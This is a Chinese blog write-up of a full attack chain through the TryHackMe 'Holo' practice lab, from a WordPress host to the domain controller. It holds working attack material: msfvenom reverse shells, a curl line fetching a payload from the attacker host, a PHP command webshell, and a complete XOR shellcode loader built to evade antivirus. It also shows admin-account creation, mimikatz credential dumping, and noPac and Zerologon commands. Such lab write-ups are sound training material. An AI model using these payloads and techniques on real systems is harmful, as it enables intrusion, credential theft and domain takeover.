# 记一次有趣的复杂靶场渗透 - 先知社区

记录一下tryhackme的Holo的靶场完成过程。和原本作者思路和工具不太一样，用自己的思路打了一下，更加优雅方便（~实际上是自己太懒了~），某些自己不懂的地方部分更加细节展开。中途太忙断了好久，还断网心态崩了，有一些自己的新思路，其他都是常规操作。

端口扫描：

```plain
/TideFinger_Linux -h 10.200.112.33 -p 1-65535
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203205-40588b3a-3455-1.png)

似乎有个高端口是socks5的无认证代理，也许后面会有作用，先放着。按照题目继续对80的wordpress进行枚举，发现版本信息：

```plain
nuclei -tags  wordpress -u http://10.200.112.33/  -rl 10
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203214-45d23a16-3455-1.png)

对[http://10.200.112.33/单个ip进行虚拟host发现，ffuf使用过滤FUZZ，这里可能有师傅不清楚实战中要不要fuzz这个点，实际情况是根据中间件的配置情况来看的，比方说ngnix和apache都有这个配置虚拟主机的选项，在集群部署的政府单位、或者一些需要负载均衡的场景比较常见，说人话就是如果某个网站的ip业务流量比较大，而且这个服务器性能又比较好适合做这个。](http://10.200.112.33/%E5%8D%95%E4%B8%AAip%E8%BF%9B%E8%A1%8C%E8%99%9A%E6%8B%9Fhost%E5%8F%91%E7%8E%B0%EF%BC%8Cffuf%E4%BD%BF%E7%94%A8%E8%BF%87%E6%BB%A4FUZZ%EF%BC%8C%E8%BF%99%E9%87%8C%E5%8F%AF%E8%83%BD%E6%9C%89%E5%B8%88%E5%82%85%E4%B8%8D%E6%B8%85%E6%A5%9A%E5%AE%9E%E6%88%98%E4%B8%AD%E8%A6%81%E4%B8%8D%E8%A6%81fuzz%E8%BF%99%E4%B8%AA%E7%82%B9%EF%BC%8C%E5%AE%9E%E9%99%85%E6%83%85%E5%86%B5%E6%98%AF%E6%A0%B9%E6%8D%AE%E4%B8%AD%E9%97%B4%E4%BB%B6%E7%9A%84%E9%85%8D%E7%BD%AE%E6%83%85%E5%86%B5%E6%9D%A5%E7%9C%8B%E7%9A%84%EF%BC%8C%E6%AF%94%E6%96%B9%E8%AF%B4ngnix%E5%92%8Capache%E9%83%BD%E6%9C%89%E8%BF%99%E4%B8%AA%E9%85%8D%E7%BD%AE%E8%99%9A%E6%8B%9F%E4%B8%BB%E6%9C%BA%E7%9A%84%E9%80%89%E9%A1%B9%EF%BC%8C%E5%9C%A8%E9%9B%86%E7%BE%A4%E9%83%A8%E7%BD%B2%E7%9A%84%E6%94%BF%E5%BA%9C%E5%8D%95%E4%BD%8D%E3%80%81%E6%88%96%E8%80%85%E4%B8%80%E4%BA%9B%E9%9C%80%E8%A6%81%E8%B4%9F%E8%BD%BD%E5%9D%87%E8%A1%A1%E7%9A%84%E5%9C%BA%E6%99%AF%E6%AF%94%E8%BE%83%E5%B8%B8%E8%A7%81%EF%BC%8C%E8%AF%B4%E4%BA%BA%E8%AF%9D%E5%B0%B1%E6%98%AF%E5%A6%82%E6%9E%9C%E6%9F%90%E4%B8%AA%E7%BD%91%E7%AB%99%E7%9A%84ip%E4%B8%9A%E5%8A%A1%E6%B5%81%E9%87%8F%E6%AF%94%E8%BE%83%E5%A4%A7%EF%BC%8C%E8%80%8C%E4%B8%94%E8%BF%99%E4%B8%AA%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%80%A7%E8%83%BD%E5%8F%88%E6%AF%94%E8%BE%83%E5%A5%BD%E9%80%82%E5%90%88%E5%81%9A%E8%BF%99%E4%B8%AA%E3%80%82)

回到正题：

```plain
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.holo.live" -u http://10.200.112.33/ -fs 21456
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203224-4be01b08-3455-1.png)

速度很慢，速度大概在每秒50个速度，把暴力破解出来的添加到hosts文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203235-5291c802-3455-1.png)

直接访问看看这些网站有什么有价值的东西，目录扫描看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203248-59f9a196-3455-1.png)

从admin的扫描内可以发现robots.txt的内容比较大

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203302-62735aba-3455-1.png)

访问获得绝对路径：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203317-6b66b59a-3455-1.png)

直接访问是403，需要配合任意文件读取获取到凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203334-75bf58c6-3455-1.png)

利用任意文件下载获取到creds.txt，因为vhost本质上是在一台机器上，所以能读取到其他的文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203359-8457c3be-3455-1.png)

拿到密码登录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203409-8ab040b0-3455-1.png)

翻阅源代码，不难看到有个被注释了的

```plain
//if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203420-912f71a4-3455-1.png)

给到cmd参数即可执行命令：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203445-a036bcb6-3455-1.png)

上msf直接拿交互式shell:

```plain
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.50.109.210 LPORT=9001 -f elf -o reverse.elf
```

```plain
curl%20http%3A%2F%2F10.50.109.210%3A8101%2Freverse.elf%20-o%20%2Ftmp%2Fagent
```

拿到shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203500-a92592de-3455-1.png)

尝试提权：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203525-b7d53ce4-3455-1.png)

```plain
exploit/linux/local/apport_abrt_chroot_priv_esc                                                                                                                                            
 exploit/linux/local/cve_2021_3493_overlayfs   
 exploit/linux/local/cve_2022_0995_watch_queue
 exploit/linux/local/su_login
```

提不上去.... 找一下flag,发现在/var/www

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203545-c3b303d4-3455-1.png)

根据php里面的配置，数据库指向发现新的资产，利用账户密码去连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203600-cce46952-3455-1.png)

用msf搭建socks代理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203627-dc75a980-3455-1.png)

```plain
proxychains mysql -u admin -p -h 192.168.100.1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203615-d5cb6098-3455-1.png)

因为是默认页面就直接写入就好了：

```plain
select '<?php phpinfo()?>' INTO OUTFILE '/var/www/html/test.php';
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203643-e5ff319c-3455-1.png)

执行命令上线，再操作一波：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203707-f46ffa90-3455-1.png)

上传到临时文件再赋予权限执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203723-fe5e0790-3455-1.png)

用的kali集成的linpeas，内容比较多，这里已经提示了suid提权，找一下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203737-069361a8-3456-1.png)

去[https://gtfobins.github.io/gtfobins/docker/找到提权的向量：](https://gtfobins.github.io/gtfobins/docker/%E6%89%BE%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E5%90%91%E9%87%8F%EF%BC%9A)

```plain
sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

这里不是交互式的tty，所以失败了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203750-0e0e58d4-3456-1.png)

```plain
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

提权也可以偷个懒，再次利用suggest模块exp提权：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806203806-1805be72-3456-1.png)

等待一会，即可上线，这里不得不说msf的提权真是强，特别在exp提权上，如果自己编译是会很多出错导致难以利用，互联网上的poc在不同环境都是有兼容性问题的,这里msf就已经考虑好了兼容性的问题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205443-69f423ca-3458-1.png)

读取cat /etc/shadow密码破解（实战下还是有必要去破解一下的，因为很多单位用的密码都一样，只要能破解出明文，利用明文去横向将会显得非常重要）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205659-baf351b0-3458-1.png)

利用hashcat破解：

```plain
hashcat -m 1800 -a 0 hash.txt rockyou.txt
```

对应的明文：

```plain
$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:linuxrulez
```

拿到密码登录验证一下：linux-admin

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205856-00c1e076-3459-1.png)

对同网段下的ip进行扫描，发现新的资产：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205909-08bc47bc-3459-1.png)

整理一下扫描的信息，（从这里之后的图片因为重置了靶场与之前的ip已经改变，不过问题不大），10.200.108.35的机器名是PC-FILESRV01 ，10.200.108.30的机器名是DC-SRV01，扫描结果也显示了是域控Domain Controllers，10.200.108.31的机器名是S-SRV01，[http://10.200.108.30:80](http://10.200.108.30/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205841-f7ff2714-3458-1.png)

再次搭建代理，这里直接用frp，frp的稳定性人尽皆知，这里就贴一下经常使用配置就好了：

```plain
./frps -c frps.ini
```

```plain
[common]
bind_port = 7000
token = Yuzusoft
tls_enable = true
```

客户端配置，实战中启用tls可以绕过态势感知、防火墙的拦截：

```plain
[common]
token = Yuzusoft
disable_custom_tls_first_byte = true
server_addr = 127.0.0.1
server_port = 7000
tls_enable = true

[socks5]
remote_port = 5444
plugin = socks5
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205645-b2d7c4d4-3458-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205728-cc60a650-3458-1.png)

搭建完毕就可以访问 [http://10.200.108.31/](http://10.200.108.31/) 了:

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205742-d4f4f3de-3458-1.png)

不晓得为什么burp出了什么问题，忍一下用浏览器来抓包，不难看出这里有个重置密码的参数让人感兴趣：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205803-e15a13b6-3458-1.png)

爆破用户名失败之后我重新翻找了之前mysql的数据库，找到了gurag用户：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205716-c50f90be-3458-1.png)

抓包分析发现gurag的token其实已经返回在返回包，一个简单的逻辑漏洞：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205629-a961b3d8-3458-1.png)

之后带着这个token去访问之前的页面即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205545-8eb2045c-3458-1.png)

登录之后一个典型的前端过滤上传：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205615-a0db692a-3458-1.png)

根据之前目录扫描的结果，应该在images目录下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205559-977414ae-3458-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205518-7e92d790-3458-1.png)

果不其然，直接一波php上传Getshell，直接拿到system权限：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205501-74b8358a-3458-1.png)

拿着进程去棱角社区进程识别看看，果然有杀毒，不过欺负一下微软的杀毒还是很轻松的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205428-612afe08-3458-1.png)

生成木马,本来想用https，但是上不了线，只能用tcp了

```plain
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.31.41 LPORT=8888 -f raw -o test.txt
```

写了分离的shellcode加载器：

```plain
#include <iostream>
#include <fstream>
#include <vector>
#include <Windows.h>

char Key[7] = { 'Y', 'U', 'Z', 'S', 'O', 'F', 'T' };
// 解密函数
int keyLength = 7;

void decrypt(std::vector<unsigned char>& encryptedData) {
    int keyIndex = 0; // 初始密钥索引为0

    for (size_t i = 0; i < encryptedData.size(); ++i) {
        encryptedData[i] = encryptedData[i] ^ Key[keyIndex]; // 使用当前密钥进行异或解密
        keyIndex = (keyIndex + 1) % keyLength; // 更新密钥索引，确保在0到6之间循环
    }
}


int main() {

    // 读取 shellcode 从本地已经加密的 log 文件
    std::ifstream file("log.txt", std::ios::binary);
    std::vector<unsigned char> shellcode;


    if (file) {
        file.seekg(0, std::ios::end);
        size_t size = file.tellg();
        shellcode.resize(size);

        file.seekg(0, std::ios::beg);
        file.read(reinterpret_cast<char*>(shellcode.data()), size);
        file.close();
    }
    else {
        std::cout << "open file fail" << std::endl;
        return 1;
    }
    Sleep(35000);
    decrypt(shellcode);
    // 分配内存
    LPVOID allocMem = VirtualAlloc(NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (allocMem == NULL) {
        std::cout << "内存分配" << std::endl;
        return 1;
    }
    // 将 shellcode 拷贝到分配的内存中
    memcpy(allocMem, shellcode.data(), shellcode.size());
    // 执行 shellcode
    typedef void (*ShellcodeFunction)();
    ShellcodeFunction func = (ShellcodeFunction)allocMem;
    func();

    // 释放内存
    VirtualFree(allocMem, 0, MEM_RELEASE);

    return 0;
}
```

shellcode加载器本地测试免杀通过了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205245-23690f60-3458-1.png)

成功上线：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205258-2b4330da-3458-1.png)

传个vt看看，20/70，算了，能用就行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205229-19fa1564-3458-1.png)

靶机一直没上线，可能是端口转发的问题，没办法了，虽然OPSEC原则上加用户是很糟糕的方法，但我这里还是加个用户登上去看看到底是怎么回事：

```plain
net user Yuzusoft XXMn9nJfUVEDx2Lk  /add
net localgroup administrators Yuzusoft /add
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205216-123ffc3a-3458-1.png)

登上去才发现，好吧，这是一个经典错误，报了个dll未找到的错误（后来几天后同事提点发现是编译的问题）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205156-067e7fca-3458-1.png)

请原谅我直接在UI内部关掉杀毒，之前还写过python的加载器，结果虚拟机之前快照重置了，就不再这里浪费时间了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205144-ff34f14a-3457-1.png)

经过一点点时间，上传木马执行上线：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205107-e906fc24-3457-1.png)

转储密码哈希：

```plain
load mimikatz
kiwi_cmd sekurlsa::logonpasswords
```

报错说32位的不能访问64位的进程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205049-dec6eaf8-3457-1.png)

这里得找个64位的进程迁移过去

```plain
migrate xxxx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205036-d70a78c0-3457-1.png)

没有cs那么舒服自己整理好了凭据，我们自己找一下，慢慢翻下去找到了明文用户和密码watamet和Nothingtoworry!

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205020-cd0723a0-3457-1.png)

现在我们控制了域内的主机，有一个域用户了，还有明文密码，满足了很多域漏洞的利用条件,我就不按照官方的操作了，居然要重启主机，它的中继攻击利用条件太苛刻了，实战很难碰上：

### noPac

这个其实是两个漏洞的组合利用，流行是说法是NoPAC,另一种是sam-the-admin，是CVE-2021-42278和CVE-2021-42287的组合拳，利用也很简单，跑一下脚本就打下域控了,利用条件就是要拿到一个用户的账号密码，

```plain
proxychains python3 sam_the_admin.py holo.live/watamet:Nothingtoworry! -dc-ip 10.200.107.30  -shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205006-c495feb2-3457-1.png)

可以拿到TGT,但是脚本只能打一次，不过我们依然可以拿到之前的缓存TGT去认证：

```plain
KRB5CCNAME='Administrator.ccache'  proxychains  /usr/bin/impacket-smbexec -target-ip 10.200.107.30 -dc-ip 10.200.107.30 -k  -no-pass @'dc-srv01.holo.live'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806204946-b904b21e-3457-1.png)

### Zerologon

这个神洞就不用说了，我们已经用了太多次了，逻辑漏洞无视所有防御，这里我用mimikatz去检测：

```plain
kiwi_cmd lsadump::zerologon /target:10.200.107.30 /account:Administrator
```

运行显示不存在，看样子靶场已经修复了这个漏洞：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806204930-af20f050-3457-1.png)

最后拿下全部靶机：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230806205122-f1f0f97a-3457-1.png)

## 总结

都是一些常规操作，没啥难度，就是很费时间和耐心，之前断网了一次导致我要重新搭建代理，心态很炸，中间隔着省Hvv，后面攻击欲望变低懒得打了，msf好多命令都记不住，这个神器还是得认真学一下的（官方文档看的头晕），原本就能靠它一键搭代理，cs入口是linux反而局限太多，后续还得学一下sliver。打法思路就是找RCE、找数据库密码逃逸容器，之后搭建代理，做一下免杀，对着域控常规的几个漏洞伺候一下就结束了，本来还是得做一下权限维持才好，熟悉熟悉常见的权限维持对后面当红队还是蓝队都很重要。